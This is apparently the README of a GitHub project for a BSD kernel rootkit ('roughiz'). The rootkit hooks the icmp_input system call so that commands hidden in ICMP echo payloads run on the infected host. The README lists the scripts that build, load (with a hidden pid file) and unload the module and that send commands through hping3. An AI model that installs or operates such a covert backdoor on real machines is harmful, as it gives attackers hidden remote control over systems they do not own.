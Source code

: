 # bsd-icmp-rootkit
hook icmp_input system call, and execute a shell remote command

## Installation  :

To compile the kernel module and the icmpshell app :
```
$ ./install_module.sh
```

## Load the module

This script load the module roughiz, run the app in background and write the pid of the app to file .__icmpshell.pid
```
$ ./load_module.sh
```

## Unload the module

This script unload the module roughiz
```
$ ./unload_module.sh
```

## Send a command to the remote rootkit

You can send a command to the rootkit, with the hping3 tool by sending an icmp echo with a payload.
To make this, you can execute the script :
```
$ ./sendcmd.sh [ip address of the remote machine or the hostname]
``` 

